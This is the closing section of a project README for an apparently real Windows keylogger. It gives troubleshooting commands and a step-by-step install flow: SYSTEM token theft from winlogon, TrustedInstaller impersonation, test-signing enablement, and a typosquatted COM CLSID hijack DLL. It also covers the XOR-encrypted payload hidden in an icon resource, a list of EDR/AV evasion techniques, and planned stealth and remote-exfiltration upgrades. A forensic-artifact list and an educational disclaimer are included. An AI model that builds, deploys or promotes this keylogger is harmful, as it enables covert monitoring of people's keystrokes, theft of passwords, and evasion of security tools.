$udp.Send([System.Text.Encoding]::UTF8.GetBytes("test"), 4, "127.0.0.1", 31415)
$udp.Close()
```

#### 4. CLSID Hijack Not Active

**Symptoms:**
```
[-] CLSID Hijack: INACTIVE
```

**Causes:**

- Registry not modified correctly
- TrustedInstaller privileges not acquired
- File deleted/quarantined by AV

**Solutions:**
```cmd
# Manually verify registry
reg query "HKCR\CLSID\{ab0b37ec-56f6-4a0e-a8fd-7a8bf7c2da96}\InProcServer32"

# Check file presence
dir C:\Windows\System32\ExpIorerFrame.dll

# Reinstall with AV disabled
UdpLogger uninstall
# Disable antivirus
UdpLogger install
```

### Debug Techniques

**Driver Debug Output:**
Use DebugView (Sysinternals) to capture kernel debug messages:
```
[KBD INFO] Driver initialization completed successfully
[KBD INFO] Keyboard object created: Filter=...
```

**Network Capture:**
```cmd
# Capture localhost UDP with Wireshark
# Set filter: udp.port == 31415
```

**Registry Monitoring:**
```cmd
# Use Process Monitor (procmon.exe)
# Filter: Path contains "kvckbd" or "ExpIorerFrame"
```

### Recovery from Failures

**System Won't Boot (Test Signing Issue):**

1. Boot into Safe Mode (F8 during boot)
2. Disable test signing:
   ```cmd
   bcdedit /set testsigning off
   ```
3. Reboot normally

**Driver Causes BSOD:**

1. Boot into Safe Mode
2. Disable driver:
   ```cmd
   sc config kvckbd start= disabled
   ```
3. Delete driver service:
   ```cmd
   sc delete kvckbd
   ```
4. Reboot

**Service Locks Files:**
```cmd
# Stop service
net stop UdpKeyboardLogger

# Delete locked files at next boot
# (requires reboot)
```

## 📊 Technical Implementation Summary

### Component Statistics

| Component | Size (Compressed) | Size (Deployed) | Location | Protection Level |
|-----------|-------------------|-----------------|----------|------------------|
| **UdpLogger.exe** | ~160 KB | ~160 KB | User-controlled | None (public executable) |
| **Embedded Resource** | ~18 KB | N/A | Inside UdpLogger.exe | XOR + CAB compressed |
| **kvckbd.sys** | ~6 KB (in CAB) | ~15 KB | DriverStore FileRepository | TrustedInstaller ACL |
| **ExpIorerFrame.dll** | ~4 KB (in CAB) | ~8 KB | System32 | TrustedInstaller ACL |
| **keyboard_log_*.txt** | N/A | Variable | %TEMP% or Documents | LocalSystem ACL (service-owned) |

### Installation Execution Flow

```
UdpLogger.exe --install (Administrator)
    │
    ├─→ [0-50ms] Secure Boot Detection
    │   └─→ Registry: HKLM\...\SecureBoot\State\UEFISecureBootEnabled
    │       └─→ Block if enabled (exit code 1)
    │
    ├─→ [50-150ms] Resource Extraction
    │   ├─→ Load RT_RCDATA (IDR_MAINICON)
    │   ├─→ Skip ICO (1662 bytes)
    │   ├─→ XOR decrypt (7-byte key)
    │   ├─→ FDI decompress (in-memory)
    │   └─→ Parse kvc.bin → 2 PE files
    │
    ├─→ [50-200ms] Token Impersonation Chain
    │   ├─→ Get SYSTEM token (winlogon.exe)      [~10ms]
    │   ├─→ Start TrustedInstaller service       [~30ms]
    │   ├─→ Duplicate TI token                   [~5ms]
    │   └─→ Enable 8 privileges                  [~5ms]
    │
    ├─→ [50-200ms] File Deployment (TI context)
    │   ├─→ CreateFileW() → ExpIorerFrame.dll    [~20ms]
    │   └─→ CreateFileW() → kvckbd.sys           [~30ms]
    │
    ├─→ [50-100ms] Registry Configuration (TI context)
    │   ├─→ CLSID hijack value                   [~15ms]
    │   ├─→ BCD test signing element             [~20ms]
    │   └─→ Driver service keys                  [~15ms]
    │
    ├─→ [20-50ms] Windows Service Creation
    │   └─→ CreateServiceW() → UdpKeyboardLogger [~50ms]
    │
    └─→ [5ms+] Reboot Prompt
        └─→ InitiateSystemShutdownExW() (10 sec delay)
```

**Total Installation Time**: ~0,2-1 second (excluding reboot)

### Runtime Data Flow

```
┌─────────────────────────────────────────────────────────────────┐
│                    After System Reboot                          │
└────────────┬────────────────────────────────────────────────────┘
             │
             ├─→ [Boot Phase 1] BCD Test Signing Active
             │   └─→ HKLM\BCD00000000\...\16000049\Element = 0x01
             │       └─→ Allows test-signed drivers to load
             │
             ├─→ [Boot Phase 2] kvckbd.sys Auto-Start
             │   └─→ Registry: HKLM\...\Services\kvckbd\Start = 2
             │       └─→ Kernel driver loaded by I/O Manager
             │
             ├─→ [Boot Phase 3] Explorer.exe Shell Initialization
             │   └─→ COM Server Activation
             │       └─→ CLSID {ab0b37ec-56f6-4a0e-a8fd-7a8bf7c2da96}
             │           └─→ Loads ExpIorerFrame.dll (typo hijack)
             │
             └─→ [Boot Phase 4] UdpKeyboardLogger Service Start
                 └─→ SERVICE_AUTO_START → ServiceMain()
                     └─→ UDP listener on 127.0.0.1:31415

┌─────────────────────────────────────────────────────────────────┐
│                    Runtime Operation (Per Keystroke)            │
└────────────┬────────────────────────────────────────────────────┘
             │
    [User presses key on keyboard]
             ↓
    i8042prt.sys / USB HID Driver (Hardware Interface)
             ↓ <1μs
    kbdclass.sys (Windows Keyboard Class Driver)
             ↓
    [IRP_MJ_READ] ← kvckbd.sys intercepts here
             ↓ ~10μs (scan code → ASCII translation)
    kvckbd.sys internal buffer (512 bytes, line-based)
             ↓ ~50μs (WSK socket send)
    127.0.0.1:31415 (UDP packet - localhost)
             ↓ ~100μs (network stack + service processing)
    UdpLogger.exe service (recvfrom)
             ↓ ~200μs (string formatting + mutex lock)
    FileLogger::log() → fstream::write()
             ↓ ~1ms (disk I/O buffered write)
    keyboard_log_2025-01-15.txt (appended line)
```

**Total Keystroke Latency**: ~1.5ms (key press → disk write)

### Performance Metrics

| Metric | Value | Notes |
|--------|-------|-------|
| **Installation Time** | 0,5-1 seconds | Excluding reboot prompt |
| **Resource Extraction** | <50ms | Entirely in-memory operations |
| **Token Impersonation** | ~200ms | TrustedInstaller service startup time |
| **File Write (TI)** | ~50ms/file | Direct API, no cmd.exe overhead |
| **Registry Write (TI)** | ~10ms/key | Single API call per operation |
| **Keystroke Latency** | <2ms | Kernel → Service → Disk |
| **Service Memory** | ~2 MB | Resident set size (RSS) |
| **Driver Memory** | ~32 KB | Non-paged pool allocation |
| **Log Growth Rate** | ~1 KB/hour | Average typing (60 WPM) |
| **CPU Usage (Idle)** | <0.04% | Service + driver combined |
| **CPU Usage (Active)** | ~0.1% | During continuous typing |

### Detection Surface Analysis

**Static Analysis Challenges:**

- ✓ XOR encryption of embedded CAB archive
- ✓ Typosquatting DLL name (`ExpIorerFrame` vs `ExplorerFrame`)
- ✓ No hardcoded file paths (dynamic DriverStore path resolution)
- ✓ In-memory CAB extraction (no temporary files on disk)
- ✓ PE files hidden inside compressed archive
- ✓ Icon resource appears legitimate to automated scanners

**Runtime Behavioral Indicators:**

| Indicator | Visibility | Forensic Evidence |
|-----------|-----------|-------------------|
| Service "UdpKeyboardLogger" | High | `sc query UdpKeyboardLogger` |
| Driver "kvckbd" loaded | Medium | `fltmc instances` / `driverquery` |
| CLSID registry modification | Low | Requires TI privileges to read |
| BCD test signing enabled | High | `bcdedit /enum {current}` shows testsigning=Yes |
| UDP port 31415 listening | Medium | `netstat -ano | findstr 31415` |
| Log files in %TEMP% | High | Visible to user account |
| "Test Mode" watermark absent | Medium | ExpIorerFrame.dll hooks API |
| TrustedInstaller usage | Low | Event log 4688 (process creation) |

**EDR/AV Evasion Techniques:**

1. **No Process Injection**: Driver + service run as legitimate system components
2. **No Code Caves**: Direct file writes, not memory patching
3. **Localhost-only Traffic**: UDP to 127.0.0.1 (no external network activity)
4. **Legitimate COM Mechanism**: CLSID hijacking uses standard Windows feature
5. **Test Signing Certificate**: Driver signed (not unsigned/malformed)
6. **TrustedInstaller Context**: Operations appear as system maintenance
7. **No Suspicious API Chains**: Direct Win32 calls, minimal hooking

**Forensic Artifacts:**

- Registry: `HKLM\SYSTEM\CurrentControlSet\Services\kvckbd`
- Registry: `HKLM\SYSTEM\CurrentControlSet\Services\UdpKeyboardLogger`
- Registry: `HKCR\CLSID\{ab0b37ec-56f6-4a0e-a8fd-7a8bf7c2da96}\InProcServer32`
- Registry: `HKLM\BCD00000000\Objects\{GUID}\Elements\16000049`
- File: `%SystemRoot%\System32\ExpIorerFrame.dll`
- File: `%SystemRoot%\System32\DriverStore\FileRepository\keyboard.inf_amd64_*\kvckbd.sys`
- Logs: `%TEMP%\keyboard_log_*.txt` or `%USERPROFILE%\Documents\keyboard_log_*.txt`
- Event Log: Security events 4688, 4656, 4663 (TrustedInstaller operations)

	## ⚖️ Legal Notice

	### Educational Purpose Statement

This project is provided strictly for educational and research purposes. It demonstrates:

- Advanced Windows kernel programming techniques
- Driver development and IRP handling
- Windows internals and security mechanisms
- Privilege escalation methods
- Persistence techniques for defensive awareness

### Authorized Use Only

**Legal Requirements:**

- Use only in controlled laboratory environments
- Obtain explicit written authorization before deployment
- Never use on systems you do not own or have permission to test
- Comply with all applicable local, state, national, and international laws

**Prohibited Uses:**

- Unauthorized access to computer systems
- Monitoring without consent
- Corporate espionage
- Identity theft or fraud
- Any illegal activity

### Ethical Considerations

**Red Team / Penetration Testing:**
If used in authorized penetration testing:

- Maintain signed contracts and scope documents
- Follow rules of engagement
- Report findings responsibly
- Provide remediation guidance

**Blue Team / Defense:**
Understand these techniques to:

- Improve detection capabilities
- Develop countermeasures
- Enhance incident response
- Train security teams

### Liability Disclaimer

The authors and contributors:

- Provide this software "AS IS" without warranty
- Accept no responsibility for misuse
- Are not liable for any damages resulting from use
- Do not endorse illegal activities

By using this software, you agree:

- To comply with all applicable laws
- To use only in authorized contexts
- To accept full responsibility for your actions
- To not hold authors liable for any consequences

### Responsible Disclosure

If you discover vulnerabilities or improvements:

- Report via GitHub Issues (public)
- Or email: marek@wesolowski.eu.org (private)
- Follow coordinated disclosure principles
- Allow reasonable time for response

## Conclusion

This project represents a comprehensive exploration of Windows kernel programming, privilege escalation, persistence mechanisms, and system internals. Through the three-component architecture (kernel driver, COM DLL, and management service), it demonstrates techniques rarely seen in modern driver development.

### Key Achievements

- First working IRP-based keyboard filter in over a decade
- Sophisticated TrustedInstaller privilege escalation
- Innovative line-buffering for reduced network overhead
- Complete installation/uninstallation automation
- Comprehensive system status monitoring

### Educational Value

Students and researchers can learn:

- Windows Driver Model (WDM) internals
- Kernel synchronization primitives
- IRP handling and cancellation
- Winsock Kernel (WSK) networking
- BCD structure and manipulation
- COM hijacking techniques
- Windows Service development

### Future Enhancements

- KMDF driver rewrite (modern framework)
- Configurable network destination (beyond localhost)
- Encrypted keystroke transmission
- Enhanced stealth (remove test mode requirement)
- Multi-keyboard simultaneous support
- Improved unload reliability

---

### Repository Information

- **Project URL**: https://github.com/wesmar/KeyboardKit
- **Author**: Marek Wesolowski
- **Contact**: marek@wesolowski.eu.org | +48 607 440 283
- **License**: Educational Use Only (See LICENSE file)
- **Version**: 1.0.0
- **Last Updated**: October 2025

**Star this repository if you found it educational!**

⚠️ **Remember: Knowledge is power. Use it responsibly.** ⚠️
